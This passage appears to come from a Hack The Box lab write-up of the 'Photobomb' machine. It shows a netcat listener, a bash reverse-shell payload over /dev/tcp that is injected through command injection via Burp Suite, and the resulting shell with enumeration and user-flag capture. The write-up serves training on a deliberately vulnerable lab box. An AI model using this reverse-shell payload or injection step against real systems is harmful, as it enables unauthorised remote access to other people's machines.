 This time the request took a while. We can see the results in the bottom of Burp Suite. Now we should craft a reverse shell so we gain access to the system with command injection.

First we should start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Photobomb]
└─$ rlwrap nc -lvp 443
listening on [any] 443 ...

```

The payload we will use looks like this:
```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.14.17/443 0>&1"
```
## Initial access

We have to translate some key characters to URL encode in Burp Suite and send the request.

![Image](/assets/img/WriteUp/HTB/Photobomb/Pasted image 20240520064101.png){: width="700" height="400" }

Next we should check our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Photobomb]
└─$ rlwrap nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from photobomb.htb [10.129.228.60] 45190
bash: cannot set terminal process group (697): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 

```

It looks like we have a connection with photobomb. Now we should start enumerating on the victim. But first we will capture the proof of the user flag like we should do on the OSCP exam.
```bash
wizard@photobomb:~/photobomb$ whoami;id;hostname;ip a
whoami;id;hostname;ip a
wizard
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
photobomb
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:fd:d9 brd ff:ff:ff:ff:ff:ff
    inet 10.129.228.60/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 2659sec preferred_lft 2659sec
    inet6 dead:beef::250:56ff:fe94:fdd9/64 scope global dynamic mngtmpaddr 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:fe94:fdd9/64 scope link 
       valid_lft forever preferred_lft forever
wizard@photobomb:~/photobomb$ cat ~/user.txt
cat ~/user.txt
<HERE IS THE USER FLAG>
wizard@photobomb:~/photobomb$ 

```
